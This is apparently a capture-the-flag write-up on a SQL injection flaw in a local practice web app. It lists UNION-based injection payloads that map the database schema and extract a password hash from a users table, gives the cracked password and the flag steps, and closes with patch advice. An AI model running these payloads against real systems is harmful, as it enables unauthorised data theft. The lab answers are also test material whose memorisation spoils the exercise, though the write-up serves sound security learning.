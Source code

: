 # Exploit

## Basic Mechanism

This vulnerability exploits an unsanitized search parameter in an image search feature:

1. The web application has a search feature for images
1. User input is directly incorporated into SQL queries without proper sanitization
1. An attacker can inject malicious SQL commands after legitimate input
1. The database executes these commands as if they were part of the original query
1. This allows the attacker to:
    - Extract database schema information
    - Access sensitive data
    - Potentially modify or delete data

## What can this do?

SQL injection vulnerabilities can have severe consequences:
- Bypass authentication
- Access sensitive data (user credentials, personal information)
- Extract database structure and contents
- Modify or delete data in the database
- Execute administrative operations on the database
- In some cases, gain control over the underlying server

## What we did

We first try some random inputs in `http://localhost:8080/?page=member` and we notice that we get sql error messages.
Then we have to follow these steps:
1. `1 ORDER BY 1` to `1 ORDER BY 3` to determine the number of columns
2. `1 union all select database(), version()` to get the database name and it's version
3. `1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database()` to get the tables name
4. `1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x7573657273` to get columns name
5. `1 union all select 1,group_concat(Commentaire,0x0a) from users` to check the content of that table
6. `1 union all select 1,group_concat(countersign,0x0a) from users` to get the password
7. `5ff9d0165b4f92b14994e5c685cdce28` we get this encrypted string that we decrypt to `FortyTwo`.
8. We know that the flag are `sha256` encrypted so we encrypt `fortytwo` using that algorithm

# Patch

- Use Parameterized Queries/Prepared Statements: Never concatenate user input directly into SQL
- Input Validation: Validate that inputs match expected formats (numbers, dates, etc.)
- ORM (Object-Relational Mapping): Use frameworks that handle SQL securely
- Least Privilege: Run database connections with minimal required permissions
- Web Application Firewall: Add an extra layer to filter malicious patterns
- Escape Special Characters: If parameterized queries aren't possible, escape inputs
- Error Handling: Don't expose SQL errors to users